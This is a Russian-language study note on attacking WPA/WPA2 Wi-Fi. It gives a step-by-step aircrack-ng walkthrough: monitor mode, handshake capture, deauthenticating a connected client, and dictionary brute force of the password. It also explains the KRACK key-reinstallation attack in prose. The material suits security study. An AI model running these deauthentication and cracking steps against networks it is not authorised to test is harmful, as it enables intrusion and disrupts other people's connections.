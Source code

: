 > ℹ️ Как ни странно, атаки на **WPA / WPA2** для понимания большинства намного проще, чем на тот же **WEP**. Возможно, все дело действительно в математике (ну или в количестве действий, необходимых для достижения результата).

Итак, а как же ломается алгоритм следующего поколения? Как ни странно, намного проще (с точки зрения исполнения) - достаточно всего лишь перехватить четырехэтапное рукопожатие.

И что, так просто? И да, и нет.

Сначала об атаках. Как мы знаем из [[Вводная теория#Аутентификация на основе четырехстороннего рукопожатия|введения]], ключ при четырехэтапном рукопожатии не передается полностью ни в одном из сообщений. Мало того, даже его части в явном виде не передаются по каналу связи. Тем не менее, от него зависят сессионные ключи (**PTK** и **GTK**), и имея их на руках, мы, чисто теоретически, можем попробовать получить из них пароль методом брутфорса.

Второй вариант - форсировать переустановку ключа (надеюсь, вы еще не забыли, что они временные?) на уже имевший место быть, что делает возможным расшифровать сообщения.

Но обо всем по порядку.

### Перехват четырехэтапного рукопожатия и восстановление пароля

Так как всю нужную теорию мы обсудили выше, вот краткий гайд, как это сделать:

`iwconfig` - получаем список интерфейсов.

`sudo systemctl stop NetworkManager` - остановка сервиса, который может помешать работе _aircrack-ng_.

`sudo airmon-ng check kill` - то же, что и выше.

`sudo ip link set wlan0 down` - останавливаем работу адаптера.

`sudo iw wlan0 set monitor control` - переводим адаптер в режим монитора.

`sudo ip link set wlan0 up` - снова включаем адаптер.

`iwconfig` - убеждаемся, что теперь в пункте _Mode_ стоит **Monitor**.

`airodump-ng wlan0` - получаем список BSSID точек, на которые мы можем провести атаку. Также благодаря этой команде можно понять, сколько устройств подключено к ней.

`iwconfig wlan0 channel <CH>` - настраиваемся на нужный канал (доступен в поле _CH_ результата команды выше).

`airodump-ng -с <CH> --bssid <BSSID> -w psk wlan0` - запускаем сбор трафика для того, чтобы поймать четырехэтапное рукопожатие.

далее в новом терминале с данными из предыдущего терминала:
`aireplay-ng -0 <своё кол-во пакетов (1-...)> -a <BSSID> -c <STATION> wlan0` - запускаем деатунтификацию пользователя `user` для ускорения процесса получения данных. В первом терминале должен появится `WPA handshake: ...`.

далее в первом терминале можно остановить предыдущий процесс и запустить новый:
`aircrack-ng -w passwords.list -b <BSSID> psk*.cap` - запускаем брутфорс пароля по полученным данным и идем ~~курить~~ пить чай. ( passwords.list - подготовленный заранее brootforse файл )

Стоит отметить, что данная атака очень сильно зависит от ~~параноидальности~~ осведомленности администратора сети. Если он выставил сложный или достаточно длинный пароль - взлом займет неадекватное количество времени, и сделать с этим, к сожалению, ничего нельзя.

### KRACK

_“Атака, которая позволит злоумышленнику прочитать ваш трафик как открытую книгу...”_ Страшно, да?

Как мы помним, на 3 этапе четырхэтапного рукопожатия клиент устанавливает сессионный ключ. Но что произойдет, если он, к примеру, не сможет его получить?

Ответ прост: так как каждый последующий этап зависит от предыдущего, 4 этап не будет пройден, и точка доступа направит ключ еще раз, и так до трех раз.

Как оказалось, злоумышленник вполне может вклиниться в эту цепочку, и форсировать изменение ключа на тот, который был использован ранее (и который известен злоумышленнику). При удачной эксплуатации злоумышленник получает возможность расшифровать весь трафик, идущий между точкой доступа и клиентом, и даже инжектировать или изменять пакеты, что, конечно, отчасти нивелируется тем, что большинство уровней **OSI** имеют свои дополнительные способы шифрования, но не убирает проблему полностью.

> ❕Других способов взломать **WPA / WPA2**, к сожалению, нет (не считая еще пары обходных методов, но об этом как-нибудь в другой раз).

***
### Полезные ссылки

[Документ с более техническим описанием атак на WEP и WPA](https://matthieu.io/dl/papers/wifi-attacks-wep-wpa.pdf)

[Официальная документация Aircrack-NG](https://www.aircrack-ng.org/doku.php?id=Main) - хорошая дока, без лишней воды.

[KRACK](https://www.krackattacks.com/) - whitepaper по одноименной атаке.